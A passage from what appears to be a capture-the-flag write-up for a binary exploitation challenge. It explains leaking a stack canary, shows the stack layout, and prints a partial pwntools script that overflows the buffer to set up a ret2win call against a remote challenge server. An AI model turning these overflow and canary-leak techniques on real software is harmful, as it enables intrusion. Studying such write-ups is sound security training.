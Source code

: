 ![QuackQuack-02](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2025/_assets/htb-cyber-apocalypse_pwn1-02.png)

Now, we successfully leak the canary. But wait, is that the canary start with the **NULL byte** character (`\x00`)? Yap, that's true, so we need to adjust the output to be stored as canary. For the next input we need to calculate before canary value, so it will not errors or stack smashing detected. Our next input is started from `$rbp-0x60` until **0x6a bytes** or **106 bytes** in decimal. But, we don't need input until the max size, we only need input until `$rbp-0x10` or **88 bytes** more.

```txt
============= STACK LAYOUT =============

[       RET       ] // lives in $rbp+0x8
[    Saved RBP    ] 
[   Stack Canary  ] // lives in $rbp-0x8
[  .............  ] // $rbp-0x10 - Last of second input - 88 bytes
[  .............  ] // $rbp-0x18
[  .............  ] // $rbp-0x20
[  .............  ] // $rbp-0x28
[  .............  ] // $rbp-0x30
[  .............  ] // $rbp-0x38
[  .............  ] // $rbp-0x40
[  .............  ] // $rbp-0x48
[  .............  ] // $rbp-0x50
[  .............  ] // $rbp-0x58
[  .............  ] // $rbp-0x60 - Second input
[  .............  ] // $rbp-0x68
[  .............  ] // $rbp-0x70
[  .............  ] // $rbp-0x78
[      Buffer     ] // Start input
```

After we know the padding of 2nd input, then we can do **ret2win** attack to call `duck_attack` function and read the flag. So, here's my final exploit script.

```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('./quack_quack', checksec=0)
context.binary = exe
context.log_level = "DEBUG"

# Start the process.
LOCAL = False
if LOCAL:
    io = exe.process()
else:
    io = remote('94.237.54.232', 39055)

# Prepare the payload for the first input.
payload = b"" # -----------------------< Start payload.
payload += b"A" * 32 # ----------------< Fill the 32 bytes buffer.
payload += b"B" * (89 - 32) # ---------< Overflow until 89 bytes.
payload += b"Quack Quack " # ----------< Pass the strstr condition (12 more bytes).

# Send the payload in the first input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Adjust the leaked canary output.
canary_position = io.recv(timeout=1).split()[2].rstrip(b',')
fixed_output = b'\x00' + canary_position[-7:]
leaked_canary = u64(fixed_output.ljust(8, b'\x00'))
log.info(f"Leaked stack canary is: {hex(leaked_canary)}")
```